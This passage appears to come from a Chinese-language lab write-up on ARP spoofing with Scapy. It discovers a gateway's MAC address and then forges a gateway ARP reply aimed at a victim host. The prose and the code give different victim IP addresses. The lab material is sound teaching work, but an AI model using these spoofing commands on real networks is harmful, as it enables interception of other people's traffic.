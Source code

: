 ```bash
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst="172.16.111.1")
# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![arp1](assets/imgs/arp1.png)

2. 发送 ARP 请求

```bash
recved = srp(arpbroadcast, timeout=2)
```

![sendArp1](assets/imgs/sendArp1.png)

3. 查看网关 MAC 地址

```bash
gw_mac = recved[0][0][1].hwsrc
gw_mac
```

![gwMac](assets/imgs/gwMac.png)

#### 伪造网关的 ARP 响应包

1. 发送给受害者主机 192.168.0.102,ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
    
```bash
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.102", hwdst="08:00:27:ef:48:19")

arpspoofed.show()
```
